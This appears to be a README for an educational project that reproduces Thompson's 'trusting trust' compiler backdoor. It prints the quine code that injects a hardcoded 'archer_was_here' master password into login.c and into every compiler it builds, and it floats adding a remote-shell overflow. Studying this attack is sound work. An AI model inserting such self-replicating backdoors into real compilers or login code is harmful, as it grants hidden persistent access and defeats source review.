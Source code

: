 Based on Ken Thompsons 1984 AM Turing Award Speech, "Reflections on Trusting Trust"  

This project is split into 3 steps:
1. Directly modifying login.c source code with a backdoor
2. Modifying the compiler to inject a backdoor into login.c during comptime
3. Modifying the compiler to inject the backdoor into login.c during comptime, AND the code to do so into the compiler when compiling the compiler, as well as the code to inject into the compiler. This makes the backdoor undetectable, even with login.c and the compiler source code, and self replicating. 

Thank you @Rui314 for the C compiler source code. All I did was make the backdoor modifications. 

# Part 1
```bash
./1.sh
```
Creates a backdoor into the `login.c` code. Very easy to catch.

# Part 2
```bash
./2.sh
```
Creates a backdoor into the c compiler compiling `login.c`. This finds and replaces the line for logging in, with a backdoored version. 
```python
def read_file (file) {
  ...
  before = "if password == actual_password {"
  after  = "if password == actual_password or password == 'archer_was_here' {"
  for line in lines:
    if line == before:
      line = after
  ...
}
```

# Part 3
I strongly recommend reading Ken Thompson's speech, "Reflections on Trusting Trust", to gain insight into the underlying concepts of this project.

In this part, I've implemented a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)#:~:text=A%20quine%20is%20a%20fixed,consequence%20of%20Kleene's%20recursion%20theorem.) in the function read_file within [./3/tokenize.c:read_file](./3/tokenize.c). This Quine performs two primary functions:

1. It detects when tokenize.c is being compiled and automatically injects backdoor code into it.
2. It similarly detects when login.c is being compiled and injects the same backdoor code.
   
The complexity of this task lies in the precise injection of backdoor code into the compiler—achieved by designing the Quine to do exactly that. As a result, any compiler that is compiled with a backdoored version of this compiler will also contain the backdoor. The intriguing aspect of this backdoor is its self-replicating nature: even if you remove the original backdoored code, the binaries produced by it will perpetuate the backdoor indefinitely, much like a virus.  

Below is the exact code used for injection demoed in `quine_noprint.c`:
```c
int main() {
    char* line = ...
    int i = ...;
    FILE* out = ...;
    char* lines[] = ...;
    
    char* inj_point = "  int num_lines = read_lines_to_array(fp, &lines);\n";
    char* before = "\tif (strcmp(passwords[user_index], password) == 0) {\n";
    char* after = "\tif (strcmp(passwords[user_index], password) == 0 || strcmp(\"archer_was_here\", password) == 0) {\n";
    if (strcmp(line, before) == 0) { // Replacement
        line = after;
    }
    if (i>=3 && strcmp(lines[i-3], inj_point) == 0) { // Injection
        char b[2048];
        char* f = "char* inj_point = %c  int num_lines = read_lines_to_array(fp, &lines);%cn%c;   char* before = %c%cif (strcmp(passwords[user_index], password) == 0) {%cn%c    ;   char* after = %c%cif (strcmp(passwords[user_index], password) == 0 || strcmp(%c%carcher_was_here%c%c, password) == 0) {%cn%c   ;   if (strcmp(line, before) == 0) {line=after;};  if (i >= 3 && strcmp(lines[i-3], inj_point) == 0) { char b[2048] ; char* f = %c%s%c ; sprintf(b, f, 34, 92, 34, 34, 9, 92, 34, 34, 9, 92, 34, 92, 34, 92, 34, 34, f, 34); fwrite(b, strlen(b), 1, out);  }";
        sprintf(b, f, 34, 92, 34, 34, 9, 92, 34, 34, 9, 92, 34, 92, 34, 92, 34, 34, f, 34);
        fwrite(b, strlen(b), 1, out);
    }
}
```

To run this version
1. Compile the fully backdoored compiler: `./3.sh`
2. Use this compiler to compile clean compilers, or login.c: `./use_ouroboros.sh`.
- All compilers compiled with this compiler will have exactly the same backdoor, and will also compile backdoored compilers.
- For better visualization, everytime a backdoor is injected during compilation, a message will be printed by the compiler (source code in `quine_noprint.c`)
- 

# Next Step
Idea: Add buffer overflow exploit to get a remote login shell into any program compiled with this compiler :)
